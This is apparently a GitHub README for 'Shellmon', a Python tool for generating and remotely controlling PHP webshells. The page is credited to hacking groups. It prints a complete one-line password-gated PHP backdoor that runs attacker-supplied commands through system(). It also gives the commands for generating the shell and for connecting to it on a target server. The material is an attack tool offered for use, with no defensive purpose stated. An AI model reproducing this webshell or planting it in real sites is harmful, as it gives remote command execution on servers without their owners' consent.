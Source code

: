 <div align="center">

![ShellMon](img/logo.png)
![](https://img.shields.io/badge/Version-1.0.0-red)
![](https://img.shields.io/badge/License-MIT-green)
![](https://img.shields.io/badge/Python-3.10.0-blue)

> An Simple PHP Webshell Manager

</div>

## Description
Shellmon is a tool used to create and control a webshell remotely, created using the Python3 programming language using the "Object Oriented" method. The resulting webshell has been coded very simply and has a size of no more than 80 bytes. 
It provides an interactive shell in your terminal that makes it easy for you to create or control a webshell.

## Instalation
The installation process of this tool is quite easy, it does not use an external python modules that makes your computer's storage space a bit filled.

Please download this repository or you can also clone the repository using git by typing the following command in your terminal: 
```bash
git clone https://github.com/22XploiterCrew/Shellmon
```
after that move the pre-work directory in your terminal to the ***shellmon** directory.

## Usage
Simple interactive shell commands make it easy to run this tool.

type `python shellmon.py` in the terminal screen to display the help command.
![help](img/help.jpg)

If you want to generate a new webshell, you just need to type this command in the terminal
```bash
python shellmon.py -p yourpassword --generate
```
webshell files will be automatically saved in your current pre-employment directory, filenames will be auto-generated with number format 0-9 and use .php extension.

Content webshell:
```php
<?=(isset($_GET[0])&&$_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```


Furthermore, if you want to connect your uploaded webshell to the target server, you just need to type this command on the terminal screen
```bash
python shellmon.py -u https://target.com -p yourpassword
```
display if successfully connected
![result](img/res.jpg)
you can also customize PHP shell functions by using the `--func [function]` argument, by default the function used is ***system***.

#### Support
- 22XploiterCrew
- Banyumas Cyber Team
- Jombang BlackHat
